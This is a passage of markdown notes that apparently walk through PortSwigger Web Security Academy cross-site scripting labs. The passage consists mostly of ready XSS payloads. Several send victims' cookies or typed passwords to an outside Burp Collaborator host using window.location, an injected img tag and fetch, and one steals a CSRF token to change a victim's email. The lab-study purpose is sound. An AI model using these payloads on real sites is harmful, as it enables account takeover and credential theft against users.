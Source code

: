 ### 4. Stored DOM XSS
>Function replaces first angle brakets only:
```
<><img src=1 onerror=alert(1)>
```
**Adapted version**
```
<><img src=1 onerror="window.location='http://burp.oastify.com/c='+document.cookie">
```

### 5. Exploiting cross-site scripting to steal cookies
```
<script>document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</script>
```

### 6. Exploiting cross-site scripting to capture passwords
>You can create new form in comment section to steal passwords
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
>https://www.doyler.net/security-not-included/xss-password-stealing  
>https://medium.com/dark-roast-security/password-stealing-from-https-login-page-and-csrf-bypass-with-reflected-xss-76f56ebc4516


### 7. Exploiting XSS to perform CSRF
>There is protection against CSRF, so we need to use the other user's CSRF token in our payload
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() 
{    
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];    
var changeReq = new XMLHttpRequest();    
changeReq.open('post', '/my-account/change-email', true);    
changeReq.send('csrf='+token+'&email=test@test.com')};
</script>
```

### 8. Reflected XSS into HTML context with most tags and attributes blocked
>BruteForce all tags by using portswigger list: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
>Find out, that <body onresize="print()"> payload gives 200 status. Use the next payload, to send it to victim:
```
<iframe src="https://0a61001b0306cecac0be0a5000570086.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
**Adapted version**
```
<script>
location = 'https://kek.web-security-academy.net/?query=<body onload=document.location='https://burp.oastify.com/?c='+document.cookie tabindex=1>#x';
</script>

ULR Encoded:
```